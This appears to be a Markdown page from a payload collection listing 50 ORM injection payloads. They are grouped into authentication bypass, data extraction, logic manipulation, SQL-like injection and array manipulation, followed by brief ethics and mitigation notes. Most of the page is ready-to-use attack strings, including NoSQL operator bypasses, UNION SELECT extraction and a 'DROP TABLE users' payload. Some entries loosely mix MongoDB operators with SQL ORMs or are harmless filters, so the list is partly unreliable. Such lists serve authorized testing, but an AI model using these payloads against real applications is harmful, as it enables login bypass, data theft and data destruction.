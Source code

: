 ```yaml
---
title: "ORM injection"
tags:
  - ORM_injection
---
```


Object-Relational Mapping (ORM) injection is a type of attack where attackers manipulate queries generated by ORM frameworks (e.g., Hibernate, SQLAlchemy, Sequelize) to exploit vulnerabilities in applications. Unlike traditional SQL injection, ORM injection targets the query-building logic of ORM frameworks, often by injecting malicious input that alters the query's structure or bypasses security checks. Below is a list of 50 example ORM injection payloads, designed to test for vulnerabilities in applications using ORMs. These payloads are generalized and may need adaptation based on the specific ORM framework (e.g., Hibernate for Java, SQLAlchemy for Python, Sequelize for Node.js) and the application's query patterns.

**Warning**: These payloads are for educational and ethical testing purposes only, in controlled environments with explicit permission. Unauthorized use is illegal and unethical. Always test responsibly in a legal, authorized environment.

### ORM Injection Payload Characteristics
ORM injection payloads typically:
- Exploit unsanitized user input in ORM query methods (e.g., `find`, `where`, `filter`).
- Manipulate query conditions to bypass authentication, extract data, or alter logic.
- Use logical operators, wildcards, or malformed input to exploit query construction.
- May resemble SQL injection but are tailored to ORM syntax (e.g., JSON-like objects, method calls).

The payloads below assume common ORM query patterns, such as `Model.find({ username: input })` (Sequelize) or `session.query(User).filter(User.name == input)` (SQLAlchemy). They are grouped by attack type and ORM framework where applicable.

### ORM Injection Payloads
#### Authentication Bypass Payloads
These aim to bypass login checks by manipulating conditions (e.g., making queries always true).

1. `{"username": {"$ne": null}, "password": {"$ne": null}}` - Sequelize/MongoDB ORM: Matches any non-null username/password.
2. `{"username": "admin", "password": {"$gt": ""}}` - Bypasses password check with a greater-than condition.
3. `{"$or": [{"username": "admin"}, {"password": "anything"}]}` - Sequelize: OR condition to bypass authentication.
4. `{"username": {"$eq": "admin"}, "password": {"$exists": true}}` - Matches admin with any existing password.
5. `admin' OR '1'='1` - SQLAlchemy/Hibernate: Injects SQL-like OR condition if ORM converts to raw SQL.
6. `{"username": "admin", "password": {"$in": ["valid", "invalid"]}}` - Matches multiple password values.
7. `{"username": {"$regex": ".*admin.*"}, "password": {"$ne": null}}` - Regex to match usernames containing "admin".
8. `admin' OR TRUE --` - SQLAlchemy: Appends true condition to bypass checks.
9. `{"username": {"$not": {"$eq": "guest"}}, "password": {"$ne": null}}` - Excludes guest users.
10. `{"$where": "this.username == 'admin'"}` - Sequelize with MongoDB: JavaScript condition bypass.

#### Data Extraction Payloads
These aim to retrieve unauthorized data by broadening query scope.

11. `{"username": {"$ne": "none"}}` - Matches all non-"none" usernames.
12. `{"id": {"$gt": 0}}` - Retrieves all records with ID greater than 0.
13. `{"$or": [{"id": {"$gt": 0}}, {"id": {"$lt": 0}}]}` - Matches all IDs (positive or negative).
14. `{"username": {"$regex": ".*"}}` - Matches all usernames with any characters.
15. `{"email": {"$exists": true}}` - Retrieves all records with an email field.
16. `{"*": "*"}` - Wildcard to match all fields (if ORM allows wildcard queries).
17. `{"id": {"$in": [1, 2, 3, 4, 5]}}` - Retrieves specific IDs.
18. `{"username": {"$like": "%admin%"}}` - SQLAlchemy/Sequelize: Matches usernames containing "admin".
19. `{"$and": [{"id": {"$gt": 0}}, {"id": {"$lte": 999999}}]}` - Matches a broad ID range.
20. `{"role": {"$eq": "admin"}}` - Retrieves admin users directly.

#### Logic Manipulation Payloads
These alter query logic to change application behavior.

21. `{"active": {"$ne": false}}` - Matches all active records.
22. `{"$or": [{"active": true}, {"active": false}]}` - Matches all records regardless of active status.
23. `{"created_at": {"$gt": "1900-01-01"}}` - Matches records with any realistic creation date.
24. `{"username": {"$not": {"$eq": null}}}` - Matches non-null usernames.
25. `{"password": {"$type": "string"}}` - Targets string-type passwords.
26. `{"$where": "this.id > 0"}` - JavaScript condition to match positive IDs.
27. `{"status": {"$in": ["active", "pending"]}}` - Matches specific statuses.
28. `{"username": {"$nin": ["guest", "test"]}}` - Excludes specific usernames.
29. `{"$or": [{"role": "admin"}, {"role": "user"}]}` - Matches multiple roles.
30. `{"updated_at": {"$exists": true}}` - Matches records with an updated timestamp.

#### SQL-Like Injection in ORM
If the ORM converts queries to raw SQL, these mimic SQL injection patterns.

31. `admin'--` - Comments out the rest of the query (SQLAlchemy/Hibernate).
32. `admin' OR '1'='1'--` - Makes the query always true.
33. `admin' AND '1'='1` - Appends trivial true condition.
34. `admin'; DROP TABLE users; --` - Attempts destructive SQL if ORM allows raw queries.
35. `admin' UNION SELECT * FROM users --` - Attempts to extract data via UNION.
36. `admin' OR username LIKE '%` - Broadens username search with LIKE.
37. `admin' AND password IS NOT NULL --` - Matches non-null passwords.
38. `admin' OR id > 0 --` - Matches all positive IDs.
39. `admin' OR TRUE` - Forces true condition in SQL-like ORMs.
40. `admin'; SELECT * FROM users WHERE '1'='1` - Attempts raw SQL execution.

#### Array and Object Manipulation Payloads
These target ORMs that handle complex data structures.

41. `{"roles": {"$elemMatch": {"$eq": "admin"}}}` - Matches admin role in an array.
42. `{"permissions": {"$all": ["read", "write"]}}` - Matches records with specific permissions.
43. `{"tags": {"$contains": "public"}}` - Matches records with specific tags.
44. `{"metadata": {"$exists": true}}` - Matches records with metadata fields.
45. `{"settings": {"$ne": {}}}` - Matches non-empty settings objects.
46. `{"$or": [{"data": {"$ne": null}}, {"data": null}]}` - Matches all records with or without data.
47. `{"attributes": {"$size": 1}}` - Matches records with exactly one attribute.
48. `{"profile": {"$regex": ".*"}}` - Matches any profile data.
49. `{"$and": [{"tags": "admin"}, {"tags": "user"}]}` - Matches records with multiple tags.
50. `{"data": {"$type": "object"}}` - Matches records with object-type data.

### Notes
- **ORM-Specific**: Payloads must be tailored to the ORM framework (e.g., Sequelize uses JSON-like syntax, Hibernate uses HQL, SQLAlchemy uses Python expressions). Test the ORM’s query syntax first.
- **Encoding**: For web applications, payloads may need URL or JSON encoding (e.g., `[$ne]` becomes `%5B%24ne%5D`).
- **Common Targets**: Authentication endpoints, search filters, and data retrieval APIs are prone to ORM injection.
- **Ethical Use**: Only test systems you own or have explicit permission to test. Unauthorized testing is illegal.
- **Mitigation**: Developers should use parameterized queries, validate and sanitize inputs, and avoid exposing ORM operators (e.g., `$ne`, `$gt`) to user input. Use safe query-building methods (e.g., `Model.findById` instead of `Model.find` with raw input).

